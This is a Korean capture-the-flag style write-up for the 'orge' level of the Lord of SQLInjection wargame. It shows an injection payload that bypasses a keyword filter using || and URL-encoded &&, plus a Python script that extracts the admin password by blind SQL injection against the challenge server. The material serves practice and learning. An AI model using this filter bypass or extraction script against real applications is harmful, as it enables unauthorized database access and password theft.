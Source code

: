 ```yaml
---
title: "[ Lord of SQLInjection ] orge"
date: 2023-03-24T07:07:07.001Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/images/589cb7b4-28a2-4f3a-ae2d-5f01b4d4ac5c-image.png)

<br>
<br>

### **문제 분석**
---

* 문자열 or 와 and를 필터링 하고 있다.
* 정확한 pw를 찾으면 문제를 해결할 수 있다.

<br>
<br>

### **문제 풀이**
---

or 하고 and는 특수문자 ||와 &&로 우회할 수 있다.

여기서 주의할 점은 특수문자 &은 url인코딩해서 %26으로 적어야한다.

<br>

![](/images/300ef57b-8daf-4636-aaec-b6805bc4b93a-image.png)

```sql
?pw=aaa' || id='admin' %26%26 length(pw)=8%23
```

length가 8일 때 Hello admin이 출력되는 것을 보아 pw의 길이는 8임을 알 수 있다.
 
<br>
 
이후 자동화 코드를 통해서 pw를 찾아내면 된다.

```python
import requests

cookie = {'PHPSESSID': '사용자 세션'}
address = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
string = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

answer = ''

for i in range(1,9):
    for j in string:
        url = f"{address}?pw=' || id='admin' %26%26 substr(pw,{i},1) = '{j}'%23"
        res = requests.get(url, cookies=cookie)
        if "Hello admin" in res.text:
            answer += j
            break
print(f'[+] Find : {answer}')
```


<br>

![](/images/667480d3-9e51-4d00-805f-75186a2111c0-image.png)

